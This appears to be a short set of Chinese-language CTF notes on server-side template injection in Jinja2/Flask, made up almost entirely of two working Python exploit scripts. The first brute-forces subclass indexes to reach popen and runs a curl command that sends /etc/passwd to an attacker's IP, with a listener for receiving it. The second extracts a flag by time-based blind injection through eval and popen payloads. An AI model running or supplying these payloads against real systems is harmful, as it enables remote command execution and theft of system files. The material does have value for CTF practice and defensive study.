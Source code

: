 #### 带外注入
```
import requests
url = "http://127.0.0.1:" #URL
for i in range(300):
    try:
        data={"post参数":'{{"".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://192.168.5.51(kaliIP)/`cat /etc/passwd`").read()}}'}
        response = requests.post(url,data=data)
    except:
        pass
```
&emsp;&emsp;同时kali开启一个python http监听(python3 -m http.server 80)

#### 纯盲注
```
import requests
import time
url = input("请输入 URL：")
request_parameter = input("请输入 POST 请求参数：")
cs = " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
flag = ""
# range() 参数为 脚本2 得到的 flag 长度
for i in range(25):
    low = 0
    high = len(cs)
    while low<high:
        index = low + (high - low) // 2
        start_time = time.time()
        # request_parameter 为 post 传入数据的参数名，根据实际情况输入
        data = { request_parameter:"{%set flag=().__class__.__base__.__subclasses__()[66].__init__.__globals__['__builtins__']['eval']('__import__(\"os\").popen(\"cat flag\").read()')%}{%if flag["+str(i)+"]=='"+cs[index]+"'%}{{().__class__.__base__.__subclasses__()[66].__init__.__globals__['__builtins__']['eval']('__import__(\"time\").sleep(2)')}}{%elif flag["+str(i)+"]>'"+cs[index]+"'%}{{().__class__.__base__.__subclasses__()[66].__init__.__globals__['__builtins__']['eval']('__import__(\"time\").sleep(4)')}}{%endif%}" }
        response = requests.post(url, data=data)
        end_time = time.time()
        # 计算响应时间
        response_time = end_time - start_time
        if response_time >=2 and response_time<=4:
            flag+=cs[index]
            print(cs[index],end='\t')
            low = high
        elif response_time>4:
            low = index+1
        else:
            high = index
print("\n"+flag)
```
&emsp;&emsp;二分法直接爆破flag。  
